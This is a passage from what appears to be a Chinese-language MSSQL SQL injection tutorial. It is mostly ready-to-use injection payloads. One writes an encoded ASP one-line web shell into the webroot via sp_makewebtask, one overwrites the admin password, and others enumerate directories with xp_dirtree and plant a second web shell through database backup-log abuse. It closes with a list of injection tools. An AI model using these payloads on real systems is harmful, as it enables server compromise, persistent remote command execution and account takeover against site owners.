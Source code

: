 

## 0x07 sp_makewebtask写一句话木马

利用sp_makewebtask写入一句话木马。

```
id=1;exec sp_makewebtask 'c:\inetpub\wwwroot\x.asp','select''%3C%25%65%76%61%6C%20%72%65%71%75%65%73%74%28%22%63%68%6F%70%70%65%72%22%29%25%3E'''-- 

# 如果失败，可以尝试先执行下面语句
id=1;exec sp_configure 'Web Assistant Procedures', 1; RECONFIGURE
```

修改管理员密码：

```
id=1;update admin set password=123123 where username='admin';
```



## 0x08 dbowner权限下的扩展攻击利用

#### 1. 判断数据库用户权限

```
id=1 and 1=(select is_member('db_owner'));-- 
```

#### 2. 搜索web目录

```
id=1;create table temp(dir nvarchar(255),depth varchar(255),files varchar(255),ID int NOT NULL IDENTITY(1,1));--

然后
id=1;insert into temp(dir,depth,files)exec master.dbo.xp_dirtree 'c:', 1,1;--
id=1 and(select dir from temp where id=1)>0
```

由于不能一次性获取所有目录文件和文件夹名，因此需要更改id的值，依次列出文件和文件夹。

#### 3. 写入一句话木马

找到web目录后，就可以写入一句话木马了。

```
id=1;alter database ssdown5 set RECOVERY FULL;create table test(str image);--
id=1;backup log ssdown5 to disk='c:\test' with init;--
id=1;insert into test(str) values ('<%execute(request("cmd"))%>');--
id=1;backup log ssdown5 to disk='c:\inetpub\wwwroot\x.asp';--
id=1;alter database ssdown5 set RECOVERY simple;--
```



## 0x09 工具使用

- 穿山甲（pangolin）
- 萝卜头
- sqlmap